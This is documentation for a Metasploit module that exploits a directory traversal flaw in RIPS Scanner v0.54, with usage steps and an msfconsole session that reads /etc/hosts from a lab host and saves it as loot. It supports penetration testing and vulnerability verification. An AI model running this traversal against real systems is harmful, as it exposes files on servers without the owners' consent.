 ## Description

  This module exploits a directory traversal vulnerability in the RIPS Scanner v0.54,
  allowing to read arbitrary files with the web server privileges.


## Vulnerable Application

  [RIPS](http://rips-scanner.sourceforge.net/) is a static source code analyser
  for vulnerabilities in PHP scripts.

  * [RIPS v0.54 Source](https://sourceforge.net/projects/rips-scanner/files/rips-0.54.zip/download)


## Verification Steps

  1. Start `msfconsole`
  2. `use auxiliary/scanner/http/rips_traversal`
  3. `set RHOSTS <rhost>`
  4. `set FILEPATH </path/to/file>`
  5. `run`


## Scenarios

  ```
  msf5 > use auxiliary/scanner/http/rips_traversal
  msf5 auxiliary(scanner/http/rips_traversal) > set rhosts 172.16.191.188
  rhosts => 172.16.191.188
  msf5 auxiliary(scanner/http/rips_traversal) > set filepath /etc/hosts
  filepath => /etc/hosts
  msf5 auxiliary(scanner/http/rips_traversal) > run
  
   127.0.0.1        localhost
    
    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    
    127.0.0.1 wpad
    
   
  [+] File saved in: /root/.msf4/loot/20190208082709_default_172.16.191.188_rips.traversal_654208.txt
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

